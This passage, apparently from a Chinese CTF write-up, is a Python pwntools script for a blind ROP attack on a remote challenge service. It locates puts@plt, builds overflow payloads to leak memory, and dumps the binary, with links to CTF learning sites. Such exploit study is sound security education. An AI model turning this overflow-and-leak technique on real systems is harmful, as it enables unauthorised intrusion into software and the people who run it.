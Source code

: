 ```python
            if b'\x7fELF' in content:
                log.success('找到puts@plt addr:'+str(hex(addr)))
                return addr
            p.close()
            addr += 1
        except Exception as e:
            p.close()
            addr += 1

# get_puts_addr(offset,rdi_ret,stop_gadget)
#610
#629
#635
# [+] 找到puts@plt addr:0x400635

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote("node5.buuoj.cn","29429")
    payload = b'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil(b'Please tell me:')
    sh.sendline(payload)
    sh.recvuntil(b'a'*offset)
    sh.recv(3)
    try:
        data = sh.recv(timeout=1)
        sleep(0.1)
        sh.close()
        try:
            data = data[:data.index(b"\nHello,I am a computer")]
            print(data)
        except Exception:
            data = data
        if data == b"":
            data = b'\x00'
        return data
    except Exception:
        sh.close()
        return None



offset = 216
stop_gadget = 0x4006e2
brop_gadget = 0x40095a
rdi_ret = brop_gadget + 0x9
puts_plt = 0x400640
addr = 0x400000
result = b""
# while addr < 0x401000:
#     print(hex(addr))
#     data = leak(offset, rdi_ret, puts_plt, addr, stop_gadget)
#     if data is None:
#         result += b'\x00'
#         addr += 1
#         continue
#     else:
#         result += data
#     addr += len(data)
# with open('code', 'wb') as f:
#     f.write(result)

#在0x400640处发现了got位置：0x601018
puts_got = 0x601018
```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"